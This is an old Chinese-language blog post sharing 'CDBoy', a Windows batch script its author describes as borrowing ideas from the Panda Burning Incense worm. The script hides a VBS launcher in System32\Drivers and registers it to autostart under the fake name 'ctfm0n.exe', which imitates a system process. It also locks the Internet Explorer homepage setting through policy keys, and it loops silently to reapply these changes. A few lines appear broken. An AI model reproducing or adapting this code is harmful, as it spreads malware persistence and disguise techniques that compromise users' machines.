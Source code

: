 ```yaml
---
author: amosk
comments: true
date: 2007-06-25 10:41:23+00:00
layout: post
slug: cdboy
title: CDBoy
wordpress_id: 47
categories:
- Web
---
```


CDBoy的雏形->

＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊＊

::这是win下的一个批处理程序，里边 包含了熊猫烧香的部分思想，有待更新-_-

@echo off

echo set ws=wscript.createobject("wscript.shell") > C:\WINDOWS\System32\Drivers\CDBoy.vbs

<!-- more -->
echo ws.run "CDBoy.bat 1 /start",0 >> C:\WINDOWS\System32\Drivers\CDBoy.vbs
:again

ping -n 6 localhost > nul

if %1 == 1 (
echo Windows Registry Editor Version 5.00 > CDBoy.reg
echo [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run] >> CDBoy.reg
echo "ctfm0n.exe"="C:\WINDOWS\System32\Drivers\CDBoy.vbs" >> CDBoy.reg
echo [HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main] >> CDBoy.reg
echo "Window Title"="CDBoy"
echo [HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel] >>CDBoy.reg
echo "homepage"=dword:00000001 >> CDBoy.reg

REGEDIT
echo [HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Policies\system] >> CDBoy.reg
echo "DisableRegistryTools"=dword:00000000 >> CDBoy.reg

) else (
echo Windows Registry Editor Version 5.00 > CDBoy.reg
echo [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run] >> CDBoy.reg
echo "ctfm0n.exe"=- >> CDBoy.reg
)
if exist CDBoy.reg (
regedit /s CDBoy.reg
del CDBoy.reg
)
goto again
